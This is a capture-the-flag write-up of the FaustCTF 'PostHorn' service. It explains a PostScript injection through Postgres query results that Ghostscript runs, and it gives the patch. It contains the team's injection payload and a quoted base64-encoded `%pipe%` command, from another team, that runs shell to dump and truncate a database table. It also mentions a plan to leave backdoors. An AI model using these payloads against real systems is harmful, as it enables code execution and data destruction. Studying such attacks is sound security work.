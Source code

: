 # PostHorn

FaustCTF 2018
![posthorn pdf](O89YgWk.png)

PostHorn was a service where we got first blood (🎉🎉🎉) in the 2019 FAUST CTF featuring Post-based technologies, such as

- HTTP Posts
- Postgress 
- Postscript

It featured a CGI Webserver binary (launched by uwsgi.ini):
![ghidra output](SGpPW9L.png)

The binary then executed PostScript files (the stuff that renders PDFs) (!!!) and forwarded the output of ghostscript to the browser.

We quickly decided the stripped binary was too much work... and focussed on the .ps files.

## PostScript

PostScript is an archaic stack-based language.
But it's very different from most things we were used to, for example defining a variable is:

```postscript
/variablename whatever def
```

Its primary use is to render PDFs.
Of course, the interface in the browser was PDFs and embedded forms <3, such as [this](index.pdf):

Due to recent PS-Based CVEs, we found a pretty good introduction here:
https://www.fortinet.com/blog/threat-research/debugging-postscript-with-ghostscript.html

## Postgress

All users and posts were added to a Postgress DB.
The Ghostscript interpreter (interpreting PostScript) then execed `psql` to communicate with the PostScript Database.

The flagbot dropped were droped into there - as message of a user.

The `psql.ps` file was the following:

```PostScript
/sqlgetrow{
	null (w) .tempfile dup 4 -1 roll writestring closefile
	(%pipe%psql -z -t -A -f ) exch concatstrings (r) file 1000 string readline pop
} bind def

/sqlescapestring {
	(t) genuuid concatstrings ($) 2 {dup 3 1 roll 2 {concatstrings} repeat} repeat
} bind def

/sqlforallresults {
	/code exch def
	null (w) .tempfile dup 4 -1 roll writestring closefile
	(%pipe%psql -z -t -A -f ) exch concatstrings (r) file /fd exch def
	{
        mark fd 512 string readline {
			null (w) .tempfile dup 4 -1 roll writestring closefile
			5 dict dup dup 4 -1 roll run 3 -1 roll exch /posted exch put /post exch put code exec cleartomark
		}{
			cleartomark exit
		} ifelse
	} loop
} bind def
```

This was, indeed, were we found an injection.

In the function(?) (operator?) `/sqlforallresults`, the returns from postscript are being passed to `run`. 
The docs state:
> *run* is a convenience operator that combines the functions of _file_ and _exec_

Inside the sql file, we find: `SELECT format(' (%s)  (%s) ', ...` -> after some deugging, it was clear that the result is then directly interpreted by `gs` (backets being the quotes for strings).
That means, anything with brackets we can inject here will allow for PostScript RCE!

## The Exploit

![flag output pdf](flag.png)
To exploit, we posted:

```SQL
SELECT post FROM post_table WHERE user_id in \(SELECT user_id from user_table where username in \('username', 'username2', 'username_n'\));) sqlgetrow show (nextpost
```

Since psql then formats this to:

```PostGress
  (SELECT post FROM post_table WHERE user_id in \(SELECT user_id from user_table where username in \('username', 'username2', 'username_n'\));) sqlgetrow show (nextpost) (some_id)  
```

and `gs` `run`s this, it will first
- push the SQL statement to the stack
- execute the `sqlgetrow` operator which pushes the sql result to the stack
- calls `show` on this, outputting the flag to the PDF (see picture above)
- pushes two normal values to the stack to make the normal parsing function happy

At the same time, we started patching.

## The Patch

To fix this issue we sanitized the output of the two provided postgres functions. In particular usernames and the content of the post could be used to trip up the postscript parsing.

We replaced the parentheses with letters, by using the `translate` function, rigerously repacing `(` with `a` and `)` with `b`.

The resulting functions (the original versions were the same without translate) are:

```SQL
CREATE OR REPLACE FUNCTION get_posts(fromuser TEXT, asuser TEXT)
RETURNS SETOF text
AS $$
        WITH help AS (SELECT user_id FROM user_table WHERE asuser = username)
        SELECT format(' (%s)  (%s) ', translate(post, '()', 'ab'), posted)
        FROM help, post_table INNER JOIN user_table USING (user_id) INNER JOIN access_table USING (post_id)
        WHERE user_table.username = fromuser AND access_table.user_id = help.user_id;
$$
LANGUAGE sql;

CREATE OR REPLACE FUNCTION get_friends(fromuser TEXT)
RETURNS SETOF text
AS $$
        WITH help AS (SELECT user_id FROM user_table WHERE fromuser = username)
        SELECT DISTINCT format(' (%s)  (%s) ', post_table.user_id, translate(username, '()', 'ab'))
        FROM help, post_table INNER JOIN user_table USING (user_id) INNER JOIN access_table USING (post_id)
        WHERE access_table.user_id = help.user_id
$$
LANGUAGE sql;
```

## A Nicer Exploit That Should Have Been...

Since flags got deleted by the other teams' exploits, for example with:

```PostScript
%pipe%echo cHNxbCAtYyAnc2VsZWN0ICogZnJvbSBwb3N0X3RhYmxlO1RSVU5DQVRFIHBvc3RfdGFibGUgQ0FTQ0FERTsnfGdyZXAgLW8gJ0ZBVVNUX1tBLVphLXowLTkrL10qJyAK | base64 -d | sh >> /tmp/zalupa) (r) file closefile 0 quit (12345
```

which decodes to

```
psql -c 'select * from post_table;TRUNCATE post_table CASCADE;'|grep -o 'FAUST_[A-Za-z0-9+/]*' 
```

We came up with the idea to:

- fix the service for other teams
- leave a backdoor with backdoor key per team
- profit

Since this could be done inside psql, (with `CREATE OR REPLACE FUNCTION`) leaving the original `sql` file intact, teams might not even have found their own patches and backdoors.

![future](1gp4ub.jpg)

In the end, we failed to do `psql` things the way `psql` wants to do things in time...

Next time...


## Done

Thanks for listening.
Great service with some retro post horny technologies!
Writeup by domenukk and iwo -  thanks to Victor and Lucas. 